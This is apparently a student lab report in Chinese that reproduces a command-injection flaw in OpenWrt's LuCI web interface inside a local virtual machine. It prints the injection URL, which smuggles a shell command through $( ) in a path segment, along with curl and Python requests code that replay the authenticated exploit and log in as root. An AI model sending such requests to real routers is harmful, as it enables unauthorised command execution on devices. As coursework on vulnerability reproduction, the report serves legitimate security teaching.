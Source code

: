 # 第四章 移动通信安全概述实验

---

## 实验要求

* 复现 CVE-2019-1227漏洞

* 编写一个漏洞利用程序

---

## 实验环境

* OpenWrt 15.05.1

---

## 实验过程

### 环境搭建

*  下载安装存在该漏洞的 OpenWrt 15.05.1 的镜像版本,参考[移动互联网安全第一章实验](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html)搭建

* OpenWrt 15.05.1虚拟机明细界面

![](img/虚拟机配置.png)

* OpenWrt 15.05.1虚拟机网络配置

![](img/网络配置.png)

### 漏洞复现

1. 使用管理员账号登录 LuCI

    * 登录界面

    ![](img/登录界面.png)

    * 登录后详细信息

    ![](img/详细界面.png)

2. 使用浏览器访问 `http://192.168.56.123/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

![](img/触发漏洞.png)

3. 访问 `http://192.168.56.123/cmd.txt`看到漏洞复现效果

![](img/获取结果.png)

### 漏洞利用

1. 通过 Chrome 浏览器开发者工具的 `Copy as curl` 功能，将漏洞复现请求复制为 curl 命令

![](img/复制漏洞利用请求.png)

```
curl 'http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=1544dc8df6ee151bdc8816bbef2dced1' \
  --compressed \
  --insecure
```

2. 通过[第三方网站](https://curl.trillworks.com/)将 curl 命令转换为 `Python requests` 代码

![](img/转换代码.png)

```
import requests

cookies = {
    'sysauth': '1544dc8df6ee151bdc8816bbef2dced1',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt', headers=headers, cookies=cookies, verify=False)
```

3. 重新登录，获取漏洞重放所需的 `luci_username / luci_password` 的参数信息，同样转化为 Python request 代码

![](img/复制登录信息.png)

* curl命令

```
curl 'http://192.168.56.123/cgi-bin/luci' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://192.168.56.123' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://192.168.56.123/cgi-bin/luci' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  --data-raw 'luci_username=root&luci_password=' \
  --compressed \
  --insecure
```

* `Python requests` 代码

```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.56.123',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.123/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': ''
}

response = requests.post('http://192.168.56.123/cgi-bin/luci', headers=headers, data=data, verify=False)
```

4. 漏洞利用代码[exp.py](exp.py)

5. 在命令行中执行`python exp.py ifconfig`，命令行输出结果如下:

![](img/ifconfig.png)

6. 在命令行中执行`python exp.py id` 并使用网页访问http://192.168.56.123/cmd.txt ，漏洞已经实现

![](img/id.png)

---

#### 参考资料

[CVE_2019_12272](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)

[移动互联网安全（2021）视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100&spm_id_from=pageDriver)

[shiancuc的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-shiancuc/tree/mis_chap0x04/chap0x04)

[ididChan的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-ididChan/blob/chap0x04/chap0x04/report/report0x02.md)